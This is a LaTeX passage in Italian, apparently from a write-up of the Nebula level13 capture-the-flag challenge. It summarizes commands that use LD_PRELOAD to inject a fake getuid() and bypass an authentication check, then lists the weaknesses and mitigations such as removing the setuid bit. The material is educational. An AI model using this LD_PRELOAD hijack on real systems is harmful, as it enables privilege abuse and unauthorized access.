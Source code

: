 \subsection{Sintesi dei comandi da eseguire}
\begin{lstlisting}[style=bashstyle]
    # creiamo il file getuid.c
    # compiliamo getuid.c
    gcc -shared -fPIC -o getuid.so getuid.c
    # carichiamo la nuova getuid.so
    export LD_PRELOAD=./getuid.so
    # copiamo flag13 per spegnere SETUID
    cp /home/flag13/flag13 /home/level13
    # eseguiamo flag13 dalla directory level13
    /home/level13/flag13
\end{lstlisting} 
Otteniamo il token (esempio sulla mia macchina: b705702b-76a8-42b0-8844-3adabbe5ac58).
Accediamo con il token come flag13, eseguiamo /bin/getflag e vinciamo la sfida.

\subsection{Debolezze}
\begin{itemize}
    \item Privilegi di esecuzione ingiustamente elevati.
    \item Versione di bash che non abbassa i privilegi di esecuzione.
    \item Manipolazione di una variabile di ambiente (\textbf{LD\_PRELOAD}) per sostituire \textbf{getuid()} con una funzione che aggira il controllo di autenticazione.
    \item Bypass dell'autenticazione tramite spoofing: L'attaccante può riprodurre il token di autenticazione di un altro utente.
\end{itemize}
\subsection{Mitigazioni}
\begin{enumerate}
    \item Spegnere bit SETUID:
    \begin{itemize}
        \item autenticarsi come root e avviare una shell con il comando: \begin{lstlisting}[style=bashstyle] 
        sudo -i
        \end{lstlisting}
        \item spegnere SETUID con il comando: \begin{lstlisting}[style=bashstyle] 
        chmod u-s /home/flag01/flag01
        \end{lstlisting}   
        \item Eseguiamo flag01 e noteremo che l’attacco non va a buon fine. 
    \end{itemize}
    \item Non ha senso ripulire la variabile LD\_PRELOAD come fatto per PATH in level01, perché LD\_PRELOAD agisce prima del caricamento del programma. Infatti nel momento in cui il processo esegue putenv() su LD\_PRELOAD, la funzione getuid() è già stata iniettata da tempo!
    La mitigazione qui è banale, ovvero non rendere noto il valore 1000 all'attaccante.
\end{enumerate}

